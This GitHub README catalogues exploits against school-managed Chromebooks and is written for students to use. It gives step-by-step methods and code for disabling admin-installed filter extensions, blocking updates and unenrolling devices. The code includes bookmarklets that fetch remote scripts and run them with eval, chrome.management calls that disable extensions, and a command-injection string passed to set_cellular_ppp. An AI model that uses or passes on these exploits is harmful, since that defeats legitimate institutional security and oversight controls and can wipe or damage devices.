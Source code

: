# Exploits And Hacks
This is a curated list of exploits for ChromeOS. It started with LTBEEF, and now there is more!
Many of these exploits can destory your computer if used inproperly. So PLEASE PLEASE make sure you follow these instructions very carefully!
If you need help ask it <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/discussions">here</a>

Note: Students to see the list of more exploits click on JPCMG [LTBEEF with Service workers and scroll down than click TerraOS and scroll down. Only if you are on my github.io website.
  
**ATTENTION ALL SYS ADMINS!!!**

Hello, I am Brandon and I forked this repo from <a href="https://github.com/3kh0/ext-remover">3kh0</a> in order to give updated and old exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of whack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

<img width="250px" src="https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png">  
Image Credit: LittleMissNyan

<details>
<summary><b>LTMEAT</b> Freeze extensions</summary>

  **DO NOT UPDATE YOUR CHROMEBOOK TO CHROME VERSION 115 OR ABOVE**

**Patched** **On** **Chrome** **Versions** **115** **And** **above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

From [ltmeat.bypassi.com](https://ltmeat.bypassi.com), if you are intrested in how this exploit works, check out that website.

1. Find a page belonging to the extension you want to disable. `chrome://extensions`, `chrome://extensions-internals`, and `chrome://process-internals` are all good places to find your extension's ID (a 32-character lowercase string). You can also just do a simple Google search. Once you have your ID, substitute it into the hostname in the URL below:

```
chrome-extension://extensionidhere/manifest.json
```

For some filters like Securly, the block screen is already an extension page. 

2. Bookmark the extension page (bookmark A) if you wish. Then, bookmark `chrome://kill` (B) and `chrome://hang` (C). 
3. While on the extension page (A), click the `chrome://kill` bookmark (B). The page should crash. You should already have the next step prepared. 
4. Instantly start spamming `chrome://hang` (bookmark C) and quickly reload the page while spamming (ideally with the refresh key on your keyboard or `ctrl`+`R`). You should have reloaded within one or two seconds of killing the page. 

If the extension page (bookmark A) no longer loads, then LTMEAT worked! You can close your tabs and the extension will basically be dead. If nothing loads, then you probably reloaded too late or spammed too slow. This isn't rocket science! Restart your computer to revert back to normal. 

Exploit made by [Bypassi#7037](https://buymeacoffee.com/bypassi), [further reading](https://ltmeat.bypassi.com)

### "Help me! I'm an idiot!"

Turns out that I had far too much faith in society when making this page. Some of you skids out there are really, really stupid and also can't read. So here are the answers to some commonly asked questions. 

**How do I get an extension ID?**

Okay, fair. Extension IDs are leaked in a couple of places. Generally, the best way to get them is to go to extension settings and copy the URL query value.

**It says blocked by client?**

That's the message you get when you try to visit an a page belonging to an extension that doesn't exist. The error message (`ERR_BLOCKED_BY_CLIENT`) is extremely misleading. Nobody blocked it--you just need to find the right extension ID (see above).

If you got this because you tried to visit the `extension_id_here_please` example URL, you should be extremely ashamed of yourself. Please change and grow as a person. 

**I don't have a bookmarks bar!!!!**

First, try running ctrl+shift+B. If that doesn't work, go to `chrome://settings` and turn on the "home button" feature, then set it to `chrome://hang`. A home icon should show up to the right of your refresh icon in the top left. Use that instead of bookmark C.

There is a version where you don't need bookmarklets, but I am currently gatekeeping it (L). Check this site daily to see if new alternate instructions have been posted. 

**I disabled an extension but now I can't load websites!**

If you actually just read the writeup, you'd know that this would happen if the extension's background page loaded and its listeners were already initialized before you used `chrome://hang`. You can double-check whether the extension is listening using `chrome://extensions-internals`, assuming you have a few brain cells in your head.

Anyway, no listeners means you were too slow. Either you waited more than three seconds between bookmark B and reloading the page, or you weren't spamming bookmark C fast enough. The most reliable fix for this is to just restart your computer and try again. Try to match the pace of the gif below: (note the reload) 

![image](https://ltmeat.bypassi.com/img/abc.gif)

**The bookmarks don't do anything when I click them!**

Might be admin-blocked. Either be smart enough to figure out another way, or check this site daily to see if new alternate instructions have been posted.

**I disabled the extension, why is some stuff still blocked?**

I have bad news for you... not all filters are Chrome Extensions. And again, make sure the extension pages (like bookmark A) are frozen before you assume that your skiddy self successfully did the exploit. 

*Need more help? [Ask in the discussions](https://github.com/3kh0/ext-remover/discussions)*

</details>

<details>
<summary><b>Baby LTMEAT</b> Freeze extensions</summary>

**Patched On Chrome Versions 115 And Above**
  
BABY METHOD
FOR THE TECHNOLOGICALLY CHALLENGES.

1. Follow step one of the original instructions to find a page belonging to the Chrome extension you want to disable.

2. Visit that chrome-extension://blockeridhere page, then type chrome://hang in the URL bar of that tab. It should start loading infinitely.

3. Right-click the tab and duplicate it. Don't close anything.

4. Go to the chrome://extensions page for the blocker extension you want to Disable.

5. If that page has any sort of switch, such as "Allow access to file URLs", click that switch. If there are no clickable switches, cry in a corner or something.

The extension should now be broken, assuming you clicked the switch! Only one of the two duplicate tabs should be left standing. You can close your tabs now.

</details>

<details>
<summary><b>LTMEAT Flood</b> Freeze extensions</summary>

  **If your Chromebook has received the 115 And Above patch on the stable channel Then Here's A New Method For LTMEAT**
  
  
**Unpatched on 115 and above**

**L**iterally **T**he **M**eatiest **E**xploit of **A**ll **T**ime

1. Create a bookmark folder and paste the extension page lots of times. (About 800 minimum is recommended assuming your Chromebook is average school quality) It is recommended that you add the extension page at the beginning of the folder.

2. Right click and open all in a new window.

3. Close the window with all those tabs.

4. Open the folder in a new window again, and Chrome should hang those tabs to take care of the old ones in the background that were just closed. (Equivalent to the duplicate tab step in Bypassi's method)

5. Flip the Allow access to file URLs switch in the extension settings and then you've bypassed the patch and the exploit is working.

6. Close everything and you're good to go. If it didn't work, try adjusting the number of open tabs. This is the LTMEAT Flood Method, and also unofficially called Alternate Method # 2. Enjoy a much longer life of LTMEAT!

**Not working?** Ensure you open a large set, but not too large, of extension tabs (_/generated_background_page.html or /manifest.json) for a permanent freeze.

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this workaround

</details>

<details>
<summary><b>Baby LTMEAT Flood</b> Freeze extensions</summary>

**Unpatched on 115 and above**

1. First of all, get your folder with 800+ extension page tabs and open it in a new window, for my Chromebook i used 800 extension page tabs as i feel it's the right amount for me

2. Close the newly opened Window with 800+ extension page tabs

3. Click into your folder, and open one of the extension page tab in a new window, maybe waiting slightly longer this time, to confirm it worked. If it loads, you did it wrong. If you see a "page unresponsive screen, and a wait/exit page button" you did it right" But don't click either of the buttons. (if you want to do it fast you can just see that the page always has a spinning loading circle)

4. Now go to `chrome://extensions/?id=yourblockerID`  Then scroll down and flick the "allow access to file URLs" lever and close the window with the 1 extension page tab remaining.

</details>

<details>
<summary><b>LTVegan</b> Freeze extensions</summary>

1. find the biggest file for your blocker extension

2. open chrome://extensions/?id=IDHERE

3. CTRL+A to copy all of the code, then drag the copied text to the tabs bar. this may freeze your  chromebook a few times.

4. start clicking the chrome extension tab (chrome://extensions/?id=IDHERE ) a few times, then wait ( chromebook is currently frozen).

5. when your chromebook isn’t as frozen, right click the main.js tab and duplicate it.

6. click the “Allow access to file URLs” (multiple times for good measure) and the first tab should close itself. if BOTH tabs closed themselves, you did something wrong, or just try again.

7. you should be able to normally use your  Chromebook now. afaik you might be able to close the duplicated tab but I didn’t close it and it lasted for a long time.

</details>

<details>
<summary><b>Anesthesia</b> Freeze extensions with printing</summary>

1. Find your extension's largest file. This can usually be found by poking around in your extension's manifest.json or you can use <a href="https://robwu.nl/crxviewer/">Rob Wu's crxviewer</a> to find your extensions largest file.

2. Go to that page. and hit `Ctrl`+`P`. A print window shoudl show up, with a number of pages in the top right.

3. Do everything you can to increase that number. Shrink down margins, change layout to landscape, anything you can. The higher you can get that number, the longer the effect will last.

4 Hit reload. The page should start hanging.

5. Go to your extension's settings page. This is in `chrome://extensions`.

6. Duplicate your "printing" tab, and go back to your extension's settings page.

7. Flip any switch you can find there. Usually there'll be one titled "`Allow Access to File:// [URL]s`".

8. Presto! Go have fun on the (probably) unblocked web.

FAQ:
Where do I find my extension's manifest.json?
First find your extension's ID. This is a 32-character code that can be found in your extension's settings page, normally near or at the top. Then go to chrome-extension://your-32-char-id-goes-here/manifest.json

Credit to <a href="https://buymeacoffee.com/bypassi">Bypassi</a> for the original LTMEAT framework, and HUGE thanks to Swordmaster4321 for discovering that pages can be hanged with printing.

</details>

<details>
<summary><b>LoMoH</b> Disable extensions</summary>

  **This exploit has been patched in Chrome OS 111 after being found and reported. It should have gotten admin protection sooner.**

  **About: LoMoH is a Chromebook exploit that uses the Chrome OS locked mode feature to soft disable enforced extensions (excluding Hapara Highlights if installed).**
  
HTML VERSION: <a href="https://tiny.cc/LoMoH">LoMoH HTML</a>

BOOKMARKLET VERSION: `javascript:(function(){if (location.hostname == "docs.google.com") {document.body.innerHTML = document.body.innerHTML.replace("Locked mode is on", "Are you ready to turn off extensions?%22);%20document.body.innerHTML%20=%20document.body.innerHTML.replace(%22You%20have%20already%20opened%20and%20closed%20this%20quiz.%20Opening%20this%20quiz%20again%20will%20notify%20the%20form%20owner%20by%20email.%22,%20%22This%20will%20reload%20all%20tabs%20in%20your%20browser%22);%20var%20button%20=%20document.getElementById(%27mG61Hd%27);%20button.innerHTML%20=%20button.innerHTML.replace(%22Start%20Quiz%22,%20%22Disable%20Extensions%22);%20button.addEventListener(%27click%27,%20function(event){window.close();})}%20else%20{window.open(%22https://docs.google.com/forms/u/0/d/e/1FAIpQLSf5EYwrSUjmQhBOasMpORZy80eBCYb7qCpEwWNoRPUGyObGMA/startquiz%22);}})()`

Credit to <a href="https://github.com/AshtonDavies">Ashton Davies</a> for finding this exploit

</details>

<details>
<summary><b>Dextensify</b> Freeze extensions</summary>

**Dextensify is an exploit which lets you disable most admin-installed Chrome extensions from any webpage. It can be used from regular websites, HTML files, and data URLs.**

Go here and follow instructions: <a href="https://dextensify.pages.dev/main">Dextensify Main HTML</a>, or download the file here <a href="https://github.com/Brandon421-ops/Exploits-And-Hacks/blob/main/Dextensify.html">Dextensify.html</a>

Credit to <a href="https://ading.dev/">ading2210</a> for finding/Making this exploit

</details>

<details>
<summary><b>JPCMG</b> LTBEEF with Service workers</summary>

**Requirements**
- Access to `chrome://serviceworker-internals`
- Inspect element

1. Go to `chrome://serviceworker-internals`
2. Find your extension, this wont work if theres not a plugin in there.
3. Hit the start button then the `inspect` button, run basic LTBEEF code
```js
chrome.management.setEnabled('<plugin id here>',false)
```
4. Profit

![image](https://user-images.githubusercontent.com/58097612/234904781-4d5ad77e-6045-435e-8aae-df12dec53013.png)

Thanks to Nyaann#3881 for this exploit

</details>

<details>
<summary><b>Corkey</b> Corrupt extensions</summary>

**Corkey does indeed include power washing the Chromebook, which wipes local data including everything under "My files," so I suggest you select everything you want to drag and back up to Google Drive if that's available for your account.**

**Chromebooks Only**

1. `Esc`+`Refresh`+`Power` and re-enroll (Enter recovery page) or you can just powerwash

2. log into your chromebook and immediately turn off wifi and do `refresh`+`power` to (instant restart)

3. Log back into your chromebook with the wifi off. There should be something on the side of the connect wifi page that says log in offline or sign in as a existing user.

4. Go to `chrome://extensions`, turn on wifi, and wait for your schools blocking extension to appear.

5. As soon as it appears turn off wifi and instant restart as fast as you can.

6. Log back in and go back to extensions and wait. If it says your blocking extension could be corrupted or doesnt appear at all then it worked (wait atleast a minute with a close watch incase it comes back)

7. If it didnt work repeat from step 1.

8. If it did work you could go onto anything

</details>

<details>
<summary><b>Extension Launcher</b> Install extensions w/o allowlist</summary>
A bookmarklet capable of installing extensions, for those without a allowlist. 

Steps: 

1. Go to <a href="https://extension-installer.glitch.me/code.js">here</a> bookmark the code there (Might make a dns)

2. go to <a href="https://chrome.google.com/webstorex">chrome.google.com/webstorex</a> and use the bookmarklet, then put the icon of the extension, the id, and name of it (Doesn't matter just put anything)

3. press download, and it will work.

**Extra Notes**
- Credit to "Aka, but nice" on discord.
- Dns will be up soon, if bookmarklets are blocked
- This will not work if you have a blocklist this is only for if when you go to the webstore it shows blocked
</details>

<details>
<summary><b>Point-Blank</b> Scripts on extension pages</summary>

This exploit allows you to run scripts, on extensions pages, this is a great example of how Chromebooks are a piece of garbage.

<i>Getting started</i>
(Note: if bookmarklets are blocked your screwed.)

1. Go to <a href="https://spot-maze-chinchilla.glitch.me/ingot.js">here</a> <a href="https://raw.githubusercontent.com/3kh0/ext-remover/main/newpointblank.js">if blocked</a> on your school chromebook.

2. Make a bookmark with the code there.

3. Once that is done,

 If you have Securly go to <a href="https://tinyurl.com/bettergoofcurly">here</a> if it says blocked by chrome, reload (you have to actually have securly ofc)
 
 If you have iBoss go to <a href="https://tinyurl.com/goofboss">here</a>.
 
 If you have Cisco Umbrella go to <a href="https://tinyurl.com/goofumbrella">here</a>.
 
 If you have Blocksi go to <a href="https://tinyurl.com/goofsi">here</a>.
 
 And if you have GoGuardian(might not work) go to <a href="https://tinyurl.com/goofguardian">here</a>. 
 
 Now most of these links are a block page(this is intentional) on each page should have a blue link, click the link on the page if it opens a blank page click the bookmarklet that you just made and click either hard disable or soft disable, you can also run some of the scripts and run your own code, your extension may disable javascript being ran on it, so running your own code may not work.
 
**Extra notes**
- I recommend doing soft disable, which only disables it until restart. 
- The launcher was made by 3kh0, but the idea was from <a href="https://bolg.glitch.me/_/point-blank/">Bypassi#7037</a>
- If your school updated GoGuardian, this exploit may not work.

</details>

<details>
<summary><b>UBoss</b> Tamper with IBoss</summary>

By the BlueHatCrew
<a href="https://dsc.gg/blue-hat-crew">https://dsc.gg/blue-hat-crew</a>

This works only for iBoss, and Blocksi, If you don't have one of these, use Blank3r or Point Blank.

1. Go to https://tinyurl.com/byeswamp if you have iBoss or https://tinyurl.com/blockboss if you have Blocksi.
Then bookmark the code below
```js
javascript:opener.eval(`fetch("https://rounded-boiling-flax.glitch.me/uboss.js").then(data=>{data.text().then(e=>{eval(e)})})`) && close();
```
2. Then go to the site with your blocker that was listed above.
3. Run the code. Follow the instructions there.

If it doesnt work let us know by creating a discussion, this was made in partnership with Aka, but nice#5094 and Bypassi#7037.

</details>

<details>
<summary><b>A Bypass For IBoss</b> Unblock websites that are blocked by IBoss</summary>

1. Firstly go over to your unblocked website you want to access. 

2. After visiting the website it should be blocked.

3. You want to turn off your wifi, then spamclick the blocked link  (not the url)

4. Then after spamclicking, turn on your wifi.

5. It should redirect you to "your connections been dissrupted" press reload.

6. Then you should be at the blocked website completely unblocked!!

(NOTE: THIS ONLY WORKS ON SOME WEBSITES)

</details>

<details>
<summary><b>CAUB</b> Prevent Updates</summary>

This exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by Catakang#0987. Using onc files, you can convince your chromebook that the wifi that you're connected to is pay-to-use (like a hotspot using data), and thus it will not check for updates.

![image](https://user-images.githubusercontent.com/58097612/212685932-ef9c802e-6040-42a3-be6e-10997162b7cd.png)

<i>Getting started</i>

1. Go to `chrome://network#state` (on your school chromebook of course; if this is blocked then ur kinda screwed lol).
2. Scroll to the bottom of the page; you should see a list of "favorite" wifis that you've connected to in the past.
3. Click the `+` sign next to the wifi name of each network that you commonly connect your chromebook to.
4. The more wifis you expand, the better, but note that they have to come from the "favorites" section.
5. Use ctrl+a and ctrl+c to copy all the text on the entire network#state page.
6. Go to [caub.glitch.me](https://caub.glitch.me/).
7. Paste the copied text into the textbox bshelow.
8. Press the `generate onc` button below the textbox.
9. Once you have downloaded the file, go to `chrome://network#general`.
10. Click on the `import onc` button.
11. Import the newly downloaded file.

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you are on a wifi that you used caub on)
- Be careful not to stay on a wifi for too long without using caub on it, otherwise you might update.
- We cannot guarantee that this will work on every wifi

</details>

<details>
<summary><b>CAUB Via Flags</b> Prevent Updates</summary>

This alt exploit keeps your chromebook downgraded (or on the current version) without automatic updates screwing you over. This exploit was found by <a href="https://github.com/MechaXYZ">MechaXYZ</a>. Using a chrome flag, you can convince your chromebook not to automatic update.

### Requirements
- Access to `chrome://flags`

<i>Getting started</i>

1. Go to `chrome://flags#show-metered-toggle` or search "metered" in `chrome://flags` instead.

2. Enable it and restart your device.

3. Open the Settings app.

4. Go to your Network >> Advanced >> Show metered toggle and turn it on

**Extra notes**
- Your chromebook will no longer automatically update. (as long as you have the flag enabled)
- And you must be able to enable flags if it ain't blocked otherwise this exploit won't work

</details>

<details>
<summary><b>LTBEEF</b> Disable extensions</summary>

LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore. The original site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
**Installation**  
There are several vesions of this exploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    1. To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```js
    javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
    ```
    - Compact Cow's UI  
    ```js
    javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
    ```  
    - Compact Cow's UI (Dark)
    ```js
    javascript:void fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(d=>d.text()).then(eval);
    ```
    2. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    3. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    1. First, go to Settings > Network > Wifi > Network.
    2. Click on `Custom Name Servers`
    
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)  
    
    3. Set every box there to the following ip:
    ```
    158.101.114.159
    ```
    (Hosted by The Greatest Giant#0110)  
    4. Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. 
    5. Flip the switches on the extentions you want to disable.
    6. Profit
    
</details>  

<details>
<summary><b>LTBEEF inspect</b> Using inspect to disable extensions</summary>

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on `108.0.5359.75` (Official Build) (64-bit) on the stable channel. This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

1. Open this on your chromebook: 
```
chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json
``` 
Shortened link: https://tinyurl.com/i-ltbeef
2. Open inspect and navigate to the console tab.
3. Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```
Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

</details>

<details>
<summary><b>Blank3r</b> Reload extensions continuously</summary>

Point Blank is an exploit that allows you to run bookmarklets on privileged pages, such as the Chrome extensions page. This exploit was made with Point Blank as well.

You can either use the prompt or the gui the prompt is below

1. Bookmark this code:

```js
javascript:let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 145);
```

And the gui is in launcher.js


2. Navigate to `chrome://extensions`.

3. Click on a extension that YOU installed from the Chrome Web Store > Details.

4. In the URL bar, copy the string of letters and numbers after the `/?id=`.

5. Click "View in Chrome Web Store" and spam the excape key. If it loads into chrome webstore try again, if it is a blank screen click the bookmarklet.

5. Paste the id of the extension into the prompt or input box seperated by commas.

If you close the tab, the exploit will stop working.

</details>

<details>
<summary><b>SH1mmer</b> Unenrollment</summary>  
sh1mmer is an exploit developed by the crew at Mercury Workshop. Credits can be found within the menu and on their site.  

Further information is now located at these links:

<a href="https://github.com/CoolElectronics/sh1mmer">Official Repository</a>  

<a href="https://sh1mmer.me/">Official Website (INSTRUCTIONS)</a>

<a href="https://dl.osu.bio/">Raw Shims Download</a>

</details>

<details>
<summary><b>SH1mmer V111 → V113</b> Unenrollment</summary>
How to use SH1MMER on v111 → v113
(if you're willing to take the back cover off your Chromebook)

you'll only need to do this once, and it will let you use SH1MMER even after it's been completely patched



        1. Unplug everything, open the back panel, disconnect the battery to disable WP, plug in the charger
        2. boot into SH1MMER and use "Un-Enroll / Deprovision" (yes I know it will show an error, but that doesn't
        matter)
        (you will also need to run "Disable block_devmode" if you're using the old legacy version)
        3. go to the bash shell and run this command:
        /usr/share/vboot/bin/set_gbb_flags.sh 0x8090
        do not use "Reset GBB Flags" after this

        4. exit SH1MMER, unplug everything, reconnect the battery, reconnect the charger
        5. boot up, press CTRL + D to enter developer mode
        6. once it completes, use CTRL + ALT + SHIFT + R to powerwash
        7. after powerwash, immediately go into VT2 by pressing CTRL + ALT + F2 (→), login as "root" and run these commands:
        tpm_manager_client take_ownership
        cryptohome --action=remove_firmware_management_parameters
        if it fails, try downgrading to v110 if possible. if you can't, use E-Halycon instead.
        8. press CTRL + ALT + F1 (←), use CTRL + ALT + SHIFT + R to powerwash again
        9. profit

        NOTE: if you're on dedede, your WP method is probably different. look your model up online to find the WP
        method.

</details>

<details>
<summary><b>CryptoSmite</b> Unenrollment</summary>

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade in order to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

- `kernver=` ends with a 2! <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3! <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a <a href="https://blog.darkn.bio/blog/3-the-tsunami">**dangerous** hardware modification</a>.

### Using CryptoSmite
1. Download a SH1MMER Prebuilt image here: <a href="dl.darkn.bio">https://dl.darkn.bio/SH1mmer/Prebuilt/</a>
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y` then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update, or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- <a href="https://github.com/FWSmasher/CryptoSmite">Repository</a>  
- <a href="https://blog.coolelectronics.me/breaking-cros-2/">Writeup</a>
- <a href="https://exploitingchromium.blogspot.com/">Official Blogspot</a>

</details>

<details>
<summary><b>E-Halcyon</b> Unenrollment Or Downgrade</summary>

First of all, you'll need a linux PC or VM. WSL is not guaranteed to work

Now, you'll need to boot into SH1MMER, and press the Un-Enroll option. It won't truly unenroll you if you've received the 112 update patching unenrollment and downgrading, but it is still a necessary step for the rest of this. If you've never used SH1MMER before or don't have an image lying around, make sure to follow all the instructions on sh1mmer.me for unenrollment before proceeding with the rest of the tutorial here

Next, you need a version 107 recovery image corresponding to your board, which you can pick up from chrome100.dev. Once you've downloaded the right image for your board and have confirmed it's for version 107, unzip it and save it to a safe place. Now open up a terminal and type in the following commands (make sure to replace /path/to/recovery/image.bin with the actual path)

```
git clone https://github.com/MercuryWorkshop/RecoMod
cd RecoMod
chmod +x recomod.sh
sudo ./recomod.sh -i /path/to/recovery/image.bin --halcyon --rw_legacy
```

The script will modify the image in place, and it can now be flashed with a standard recovery tool onto a USB of your choice.

Enable developer mode and get to the dev mode block screen similarly to how you would with SH1MMER, then plug in the USB. The recovery screen will show up, and at this point you need to start spamming the E key on your keyboard. It will begin a 5 minute wait sequence, and near the end of the 5 minutes start spamming E again. You will only have to wait 5 minutes once, subsequent boots will have the 5 minute wait omitted

The boot splash will show, and you will enter a special menu. Use arrow keys to navigate the cursor down to "activate halcyon environment" and press enter. Then navigate down to "Install halcyon semi-tethered" and wait for it to finish. Once it's finished, go back to "activate halcyon environment" and press "Boot halcyon semi-tethered". and you will be booted into a downgraded and unenrolled ChromeOS environment.

FAQ:
How does this work?
See the writeup for more information

Can the admins see that I'm doing this?
No.

Why don't my history/cookies/etc save after a reboot?
Unfixable restriction of cryptohome. See the writeup for more information

Why is my Chromebook "Missing or damaged?"
After installing E-Halcyon, you won't be able to boot Chrome OS normally. You'll have to keep the usb around to jumpstart the booting process

Where do I report bugs?
The RecoMod GitHub

Why does it say "E mode not activated" when I try to boot halcyon?
You spammed the E key when starting at the wrong time, or not at all

Credits:
CoolElectronics - RecoMod, working switch_root, and everything else
OlyB - Insight and contributions to the RecoMod script
vk6 - Created this website

</details>

<details>
<summary><b>Old Weird Unenrollment</b> Unenrollment</summary>

if you have a chromebook that's on a version below 101  
(check `chrome://version` to see)
press ctrl+alt+t and type this in            


`set_cellular_ppp \';dbus-send${IFS}--system${IFS}--print-reply${IFS}--dest=org.chromium.SessionManager${IFS}/org/chromium/SessionManager${IFS}org.chromium.SessionManagerInterface.ClearForcedReEnrollmentVpd;exit;\'`

                                                         
           then powerwash and it will unenroll           
                       cool right                        

    to re-enroll, open a bash shell and type these in one by one
```
sudo -i
```

```
vpd -i RW_VPD -s check_enrollment=1
```

```
echo "fast safe" > /mnt/stateful_partition/factory_install_reset
reboot
```

</details>

<details>
<summary><b>TerraOS</b> Linux from RMA shim</summary>

1. Clone the <a href="https://github.com/r58Playz/terraos">TerraOS repository</a>.

Run `git clone https://github.com/r58Playz/terraos.git` in a terminal.

2. Create a build directory in the cloned directory.

3. Run `bash ../scripts/build_stage1.sh <defconfig>` in the terminal.
- Use terraos as the defconfig if building for x86_64 Chromebooks.
- Use `terraos_jacuzzi` as the defconfig if building for `jacuzzi` board Chromebooks.
- Support for `jacuzzi` boards is experimental and may not work.

4. Run bash ../scripts/build_aur_packages.sh in the terminal.

5. Run
`bash ../scripts/build_all.sh <shim.bin> <board_recovery.bin>
<reven_recovery.bin>`
in the terminal, replacing `<shim.bin>` with the path to a shim for your board, `<board_recovery.bin>` with the path to a recovery image for your board, and `<reven_recovery.bin>` with the path to a Chrome OS Flex recovery of the same version. This places a built bootloader image, SquashFS and tarballs of the arch RootFS, a bootloader image with the arch Rootfs, a bootloader image with TerraOS Chrome OS, and a bootloader image with both the arch RootFS and TerraOS Chrome OS in the build directory.

The default arch RootFS user and password are `terraos`.

</details>

<details>
<summary><b>Shimboot</b> Linux from RMA shim</summary>

Shimboot is a collection of scripts for patching a Chrome OS RMA shim to serve as a bootloader for a standard Linux distribution. It allows you to boot a full desktop Debian install on a Chromebook, without needing to unenroll it or modify the firmware.
  
**For more detailed information, please see the project's <a href="https://github.com/ading2210/shimboot">README</a>**

Further reading:
- <a href="https://shimboot.ading.dev/">https://shimboot.ading.dev/</a>
- <a href="https://github.com/ading2210/shimboot">https://github.com/ading2210/shimboot</a>

Credit to <a href="https://ading.dev/">vk6</a> for this exploit

</details>

<details>
<summary><b>Skiovox</b> Unrestricted browsing</summary>

**Patched on chrome versons 120+**

### What is it?

An exploit that allows for browsing within a completely unblocked Chrome
browser. It works on ChromeOS 118 and a wide range of previous versions.
- Skiovox utilizes a bug in kiosk apps
- Very similar to a bug from 3 years ago
Within the unblocked browser, you can
- Install extensions
- Bypass pretty much all blocks
- Do whatever the honk you want

### How to use it

Bypassi made a wonderful slideshow for you goof balls to follow, view using any of the links below!

- <a href="https://www.skiovox.com/">https://www.skiovox.com/</a>
- <a href="https://skiovox.netlify.app">https://skiovox.netlify.app</a>
- <a href="https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview">https://drive.google.com/file/d/1tl8eP26MFRejHO38H5HwMLl2VaQrtn0Z/preview</a>
- <a href="https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx">https://1drv.ms/b/s!Ais5N3vPLTEMh8poZbywnNWdMUrhUA?e=MaCHBx</a>

</details>

<details>
<summary><b>Skiovox for v120</b> Unrestricted browsing</summary>

**Skiovox Method "120"**

"If you see that you don't have a sign in as existing user button, click Ctrl+Alt+Shift+R then click cancel" then continue.

